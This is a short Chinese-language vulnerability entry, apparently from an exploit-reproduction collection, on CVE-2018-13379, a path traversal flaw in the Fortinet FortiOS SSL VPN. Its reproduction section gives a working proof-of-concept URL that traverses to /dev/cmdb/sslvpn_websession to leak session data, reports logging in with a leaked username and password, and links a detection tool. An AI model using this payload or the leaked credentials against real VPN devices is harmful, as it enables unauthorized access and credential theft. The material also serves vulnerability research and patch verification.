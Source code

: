 ```yaml
---
title: "（CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞"
id: zhfly2945
---
```


# （CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞

## 一、漏洞简介

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）
漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影响。

## 二、漏洞影响

Fortinet FortiOS 5.6.3版本至5.6.7版本、

Fortinet FortiOS 6.0.0版本至6.0.4版本

中的SSL VPN 受此漏洞影响。

## 三、复现过程

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![image](../img/0af0998ee7cfc90c78dddfc15f287c7f.png)

利用泄露的账户herschel/vvpn123成功登陆。

![image](../img/0acb41afe80dc17e71fae24332532238.png)

![image](../img/81e5e8b7ea2570e7a56380391472ac1c.png)

### 检测工具

> https://github.com/ianxtianxt/CVE-2018-13379

## 参考链接

> https://blog.csdn.net/limb0/article/details/102890683